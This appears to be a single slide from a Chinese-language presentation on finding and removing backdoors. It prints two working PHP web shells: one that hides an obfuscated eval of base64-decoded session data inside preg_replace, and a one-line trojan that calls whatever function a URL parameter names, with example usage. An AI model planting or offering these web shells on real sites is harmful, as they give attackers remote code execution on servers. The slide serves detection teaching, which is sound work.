

10
后 门 查 杀

无特征隐藏php后门
<?php
session_start();
$_POST['code'] && $_SESSION['theCode'] = trim($_POST['code']);
$_SESSION['theCode']&&preg_replace('\'a\'eis','e'.'v'.'a'.'l'.'(base64_decode($_SESSION[\'theCode\']))','a’);

隐藏的一句话木马
<?php $_GET[a]($_GET[b]);?>
用法：
get传参：?a=assert&b=phpinfo();